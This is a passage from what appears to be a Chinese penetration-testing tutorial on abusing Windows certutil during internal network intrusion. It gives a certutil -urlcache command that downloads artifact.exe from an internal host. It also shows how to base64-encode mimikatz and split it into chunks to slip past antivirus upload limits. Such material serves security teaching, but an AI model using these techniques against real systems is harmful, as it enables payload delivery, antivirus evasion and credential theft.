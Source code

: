 ```php
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

certutil base64加解密
==================

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c56d9b5f6415d6848346103d1462773070e70891.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c56d9b5f6415d6848346103d1462773070e70891.png)

这里我上传图片测试能够上传成功

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3209aaefae35233784c202fb2eed2864e2004cee.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3209aaefae35233784c202fb2eed2864e2004cee.png)

本地也能够下载下来，但是就是到靶机上下载不下来，这时候就可以使用`certutil`的`encode`和`decode`进行加解密。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0d7a6bf9a4fa4557cc4e8a9243774aa6a2efe917.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0d7a6bf9a4fa4557cc4e8a9243774aa6a2efe917.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-982dba4bc1816b90cd9c9973ef2e62e0bb5db07a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-982dba4bc1816b90cd9c9973ef2e62e0bb5db07a.png)

`certutil`在内网渗透中的另外一个用处就是进行base64编码。我们知道在内网中需要用到内网代理，一般都会用到nps或者frp，但是如果碰到有杀软限制上传文件大小的情况，这时候我们就可以使用先用encode编码分块上传再使用decode解密。

使用`encode`进行base64编码，然而大小还变大了，这里就可以考虑分成多块传输后再进行整合

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2fe14fb8c8b27a7a6b140ea2f5c23deeb697060f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2fe14fb8c8b27a7a6b140ea2f5c23deeb697060f.png)

这里我查看了一下生成的`mimikatz.txt`有2.7w行，所以这里我将其拆分为三块，这里顺便说一下快速选择大文件的指定行的操作

在notepad++编辑里面点击`开始/结束选择`，光标会定位到第一行

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-adbac8df20a294f4ea8ff93249fac0fe6bb263fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-adbac8df20a294f4ea8ff93249fac0fe6bb263fc.png)

再使用`ctrl + g`切换到行定位，选择要选中的行，因为这里我拆分成3块，所以这里我选择的是第10000行

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-516987b419ad25ed260ffbfab5aa5141aa2f8b5b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-516987b419ad25ed260ffbfab5aa5141aa2f8b5b.png)

再到编辑里面点一下`开始/结束选择`即可选中

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-48298b7fd9a8cdc3333471894a960756883db5a6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-48298b7fd9a8cdc3333471894a960756883db5a6.png)

这里我把`mimikatz.txt`拆分成了三个txt进行上传
